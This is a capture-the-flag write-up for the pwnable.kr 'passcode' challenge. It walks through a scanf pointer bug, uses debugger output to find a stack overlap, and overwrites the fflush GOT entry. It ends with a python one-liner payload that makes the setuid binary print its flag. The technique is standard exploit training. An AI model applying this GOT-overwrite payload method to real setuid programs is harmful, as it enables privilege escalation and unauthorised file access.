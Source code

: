 # passcode
The fifth challenge from pwnable.kr

## Description
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)

## Solution

After ssh, we see the following:

```sh
ls -lh
```

```
-r--r----- 1 root passcode_pwn   48 Jun 26  2014 flag
-r-xr-sr-x 1 root passcode_pwn 7.4K Jun 26  2014 passcode
-rw-r--r-- 1 root root          858 Jun 26  2014 passcode.c
```

We can see that executes with suid bit of passcode_pwn, which would allow it to open flag.

Let's try to compile the source code to see what warning they're talking about.

```sh
gcc passcode.c
```

```
passcode.c: In function ‘login’:
passcode.c:9:2: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
  scanf("%d", passcode1);
  ^
passcode.c:14:9: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
         scanf("%d", passcode2);
         ^
```

If we try to run the program, we get the following:

```sh
./passcode
```

```
Toddler's Secure Login System 1.0 beta.
enter you name : Fuck
Welcome Fuck!
enter passcode1 : 338150
enter passcode2 : 13371337
Segmentation fault
```

Source code is provided again in this challenge, let's take a look at it.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

The disassembly gives us more insight on which memory addresses are being used during the passcode comparisons.

```asm
80485c5:	81 7d f0 e6 28 05 00 	cmpl   $0x528e6,-0x10(%ebp)
80485cc:	75 23                	jne    80485f1 <login+0x8d>
80485ce:	81 7d f4 c9 07 cc 00 	cmpl   $0xcc07c9,-0xc(%ebp)
80485d5:	75 1a                	jne    80485f1 <login+0x8d>
80485d7:	c7 04 24 a5 87 04 08 	movl   $0x80487a5,(%esp)
80485de:	e8 6d fe ff ff       	call   8048450 <puts@plt>
80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)
80485ea:	e8 71 fe ff ff       	call   8048460 <system@plt>
```

Let's see what the stack looks like if we fill name[100].

```sh
pwndbg ./passcode
```

```
pwndbg> b *0x80485c5
Breakpoint 1 at 0x80485c5
```

```
pwndbg> r
Starting program: /home/ctf/challenges/passcode/passcode
Toddler's Secure Login System 1.0 beta.
enter you name : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
enter passcode1 : a
enter passcode2 : checking...

Breakpoint 1, 0x080485c5 in login ()
```

```
pwndbg> x/4wx $ebp-0x10
0xff925418:	0x61616161	0xbf99e000	0x00000000	0x00000000
```

Part of our buffer is reused in the stack of login(), particularly the memory address of passcode1 which is `-0x10(%ebp)`.

`scanf("%d", passcode1)` is not dereferencing passcode1, which means scanf will load an address and write a value there instead.

So let's write an address with the last 4 bytes during `scanf("%100s", name)`, then overwrite with a value of our own during `scanf("%d", passcode1)`.

One thing we can do, since this code is dynamically linked, is overwrite a reloc in the PLT so that our code jumps where we want when that call is made.

```
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts
0804a010  00000507 R_386_JUMP_SLOT   00000000   system
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf
```

fflush is conveniently called right after our second scanf, and also has neither whitespace/null hex value representations in its address, so let's use that.

`80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)` is where we want to jump to.

We pad our buffer with 96 bytes, then the address of fflush, `0x0804a004`, then the address we want to jump to when fflush is eventually called, in int representation, `134514147`.


### Capturing the Flag

```sh
passcode@ubuntu:~$ python -c "print('a'*96+'\x04\xa0\x04\x08\n134514147\n10\n')" > /tmp/passcode.input
passcode@ubuntu:~$ ./passcode < /tmp/passcode.input
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
